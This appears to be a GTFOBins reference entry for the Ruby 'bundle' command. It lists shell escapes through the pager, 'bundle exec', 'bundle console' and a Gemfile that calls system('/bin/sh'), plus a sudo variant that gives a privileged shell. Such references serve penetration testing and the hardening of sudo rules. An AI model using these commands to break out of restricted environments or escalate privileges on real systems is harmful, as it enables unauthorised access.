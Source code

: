 functions:
  shell:
    - description: This invokes the default pager, which is likely to be  [`less`](/gtfobins/less/), other functions may apply.
      code: |
        bundle help
        !/bin/sh
    - code: |
        export BUNDLE_GEMFILE=x
        bundle exec /bin/sh
    - code: |
        TF=$(mktemp -d)
        touch $TF/Gemfile
        cd $TF
        bundle exec /bin/sh
    - description: This spawns an interactive shell via [`irb`](/gtfobins/irb/).
      code: |
        TF=$(mktemp -d)
        touch $TF/Gemfile
        cd $TF
        bundle console
        system('/bin/sh -c /bin/sh')
    - code: |
        TF=$(mktemp -d)
        echo 'system("/bin/sh")' > $TF/Gemfile
        cd $TF
        bundle install
  sudo:
    - description: This invokes the default pager, which is likely to be  [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo bundle help
        !/bin/sh
---

